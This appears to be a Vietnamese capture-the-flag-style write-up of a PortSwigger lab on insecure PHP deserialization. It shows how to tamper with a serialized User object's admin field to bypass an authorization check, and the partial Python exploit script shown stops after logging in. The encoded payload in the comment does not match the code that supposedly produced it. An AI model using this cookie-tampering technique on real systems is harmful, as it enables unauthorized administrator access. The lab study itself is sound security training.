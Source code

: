 và mình đã thành công solve được lab

với data `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`bài có thể dùng đoạn mã này để tạo đối tượng

```php!
class User {
    public $username;
    public $admin;
}

$user = new User();
$user->username = "wiener";
$user->admin = 0;
```

và đoạn code kiểm tra

```php!
 if ($session_data->admin) {
            echo "You are an admin!";
        } else {
            echo "You are not an admin.";
        }
```

Mã hóa lại theo các thuật toán, bypass thành công với quyền administrator:

```php!
class User {
    public $username;
    public $admin;
}

$user = new User();
$user->username = "wiener";
$user->admin = "abc";
echo urlencode(base64_encode(serialize($user)));
// Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3D
```

![image](https://hackmd.io/_uploads/B14sEYJs6.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0ac3002203c81af885c53ab3004800d2.web-security-academy.net'

session = requests.Session()

data = {
    'username': 'wiener',
    'password': 'peter',
}

response = requests.post(
    url + "/login",
    data = data,
    verify=False
)

```